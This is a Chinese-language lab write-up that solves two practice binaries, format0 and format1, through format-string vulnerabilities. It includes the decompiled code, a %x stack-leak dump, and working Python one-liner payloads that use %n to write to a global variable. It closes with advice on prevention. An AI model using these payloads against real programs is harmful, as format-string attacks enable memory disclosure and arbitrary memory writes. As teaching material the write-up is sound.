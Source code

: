 # 格式化字符串实验1

## 实验概述

### 【目的】
1. 运行format0，得到输出`you have hit the target correctly :)`，要求输入的参数不超过十个字节。
2. 运行format1，得到输出`you have modified the target :)`
### 【环境】
Linux
### 【工具】
python
### 【原理】
格式化字符串，是一些程序设计语言在格式化输出API函数中用于指定输出参数的格式与相对位置的字符串参数，例如C、C++等程序设计语言的printf类函数，其中的转换说明（conversion specification）用于把随后对应的0个或多个函数参数转换为相应的格式输出；格式化字符串中转换说明以外的其它字符原样输出。[1]
## 实验步骤

### 【步骤】

#### format0
```
$ binwalk format0

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```
```
int __cdecl vuln(char *format)
{
  int result; // eax@1
  char s; // [sp+Ch] [bp-4Ch]@1
  int v3; // [sp+4Ch] [bp-Ch]@1

  v3 = 0;
  sprintf(&s, format);
  result = v3;
  if ( v3 == 0xDEADBEEF )
    result = puts("you have hit the target correctly :)");
  return result;
}
```
分析`vuln()`函数可以发现，s字符数组和变量v3相邻，可以通过sprintf()来溢出控制v3的值。
另外一个要求是不超过十个字符，这里可以使用格式化字符的占位符来输入64
```
$ python -c 'print "%64d\xef\xbe\xad\xde"' | xargs ./format0
you have hit the target correctly :)

```

#### foramt1

```
$ binwalk format1

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```
```
int __cdecl vuln(char *format)
{
  int result; // eax@1

  printf(format);
  result = target;
  if ( target )
    result = puts("you have modified the target :)");
  return result;
}
```
双击target变量，发现是存在bss段的全局变量。
```
.bss:0804A024 target          dd ?                    ; DATA XREF: vuln+14r
.bss:0804A024 _bss            ends
.bss:0804A024
```
target 变量的地址也可以使用objdump求得
```
$ objdump -t format1 | grep target
0804a024 g     O .bss	00000004              target
23
```
注意到`printf()`直接把format作为参数，意味着这里存在一个格式化字符串漏洞。
首先要求得format的偏移量。
```
$ ./format1 AAAA`python -c 'print ".".join(["%d:%%x" % i for i in range(1,200)])'`
AAAA1:f7fb6000.2:f7fb4244.3:f7e1e0ec.4:2.5:0.6:ffffca58.7:804848f.8:ffffcd07.9:ffffcb04.10:ffffcb10.11:80484c1.12:f7fb63dc.13:ffffca70.14:0.15:f7e1e637.16:f7fb6000.17:f7fb6000.18:0.19:f7e1e637.20:2.21:ffffcb04.22:ffffcb10.23:0.24:0.25:0.26:f7fb6000.27:f7ffdc04.28:f7ffd000.29:0.30:f7fb6000.31:f7fb6000.32:0.33:49b7bdb.34:38c475cb.35:0.36:0.37:0.38:2.39:8048340.40:0.41:f7feeff0.42:f7fe9880.43:f7ffd000.44:2.45:8048340.46:0.47:8048361.48:804846b.49:2.50:ffffcb04.51:80484a0.52:8048500.53:f7fe9880.54:ffffcafc.55:f7ffd918.56:2.57:ffffccfd.58:ffffcd07.59:0.60:ffffd210.61:ffffd21b.62:ffffd230.63:ffffd247.64:ffffd259.65:ffffd28c.66:ffffd2a4.67:ffffd2bb.68:ffffd2ca.69:ffffd2fe.70:ffffd312.71:ffffd323.72:ffffd33a.73:ffffd34a.74:ffffd36d.75:ffffd37f.76:ffffd396.77:ffffd3da.78:ffffd3f1.79:ffffd41e.80:ffffd42b.81:ffffd9b3.82:ffffd9c6.83:ffffd9df.84:ffffda19.85:ffffda4d.86:ffffda76.87:ffffdac8.88:ffffdafb.89:ffffdb3f.90:ffffdb56.91:ffffdbe9.92:ffffdbfb.93:ffffdc1c.94:ffffdc3a.95:ffffdc4f.96:ffffdc69.97:ffffdc72.98:ffffdc86.99:ffffdc99.100:ffffdcaa.101:ffffdcb9.102:ffffdcef.103:ffffdd0a.104:ffffdd27.105:ffffdd39.106:ffffdd4a.107:ffffdd5c.108:ffffdd76.109:ffffdd95.110:ffffdd9d.111:ffffddb0.112:ffffddbf.113:ffffddd1.114:ffffddfd.115:ffffde18.116:ffffde28.117:ffffde64.118:ffffdeca.119:ffffdedd.120:ffffdefd.121:ffffdf07.122:ffffdf26.123:ffffdf31.124:ffffdf4b.125:ffffdf5e.126:ffffdf80.127:ffffdf94.128:ffffdfa8.129:ffffdfcd.130:ffffdfd9.131:0.132:20.133:f7fd8dc0.134:21.135:f7fd8000.136:10.137:f8bfbff.138:6.139:1000.140:11.141:64.142:3.143:8048034.144:4.145:20.146:5.147:9.148:7.149:f7fda000.150:8.151:0.152:9.153:8048340.154:b.155:3e8.156:c.157:3e8.158:d.159:3e8.160:e.161:3e8.162:17.163:0.164:19.165:ffffccdb.166:1a.167:0.168:1f.169:ffffdfee.170:f.171:ffffcceb.172:0.173:0.174:e0000000.175:cd2f73a2.176:fd127d87.177:68381562.178:69d375ee.179:363836.180:0.181:0.182:0.183:662f2e00.184:616d726f.185:41003174.186:31414141.187:2e78253a.188:78253a32.189:253a332e.190:3a342e78.191:352e7825.192:2e78253a.193:78253a36.194:253a372e.195:3a382e78.196:392e7825.197:2e78253a.198:253a3031.199:31312e78
```
%x表示按十六进制输出。
可以发现在185偏移附近有重复出现的0x41，我们挨个进行试探。
```
lometsj@ubuntu:~/prostar$ ./format1 `python -c 'print "ABCD" + "X" * 4 + "%186$x."'`
ABCDXXXX36383125.
lometsj@ubuntu:~/prostar$ ./format1 `python -c 'print "ABCD" + "X" * 4 + "%185$x."'`
ABCDXXXX58585858.
lometsj@ubuntu:~/prostar$ ./format1 `python -c 'print "ABCD" + "X" * 4 + "%184$x."'`
ABCDXXXX44434241.
```
在偏移等于184时，刚好输出0x44434241，即'ABCD'。
这里引入另外一个格式化符号%n，%n与其他格式说明符号不同。%n不向printf传递格式化信息，而是令printf把自己到该点已打出的字符总数放到相应变元指向的整形变量中。
通常来说，%n是这样使用的。
```
      strlen('abcd----')
          |           |
          |           |
printf("abcd-----%n",&len)

(len = strlen('abcd----'))
```
在这道题中，184偏移位置的值等于我们输入数据的前4位，那么我们置前四位为target变量的地址，并在184偏移处使用%n格式化，就会令target变量得到一个非零的赋值。
```
$ ./format1 `python -c 'print "\x24\xa0\x04\x08" + "X" * 4 + "%184$n."'`
$�XXXX.you have modified the target :)

```
### 【总结】
本次实验主要熟悉了格式化字符串的溢出，通过%x泄露内存数据，通过%n来进行任意地址写的漏洞。

可以发现，格式化字符串漏洞发生的原因是程序将格式化字符串的权限交给用户，即用户可以操作格式化字符串的内容。

要预防这类情况，在使用格式化字符串函数时，format参数的权限一定不能交给用户。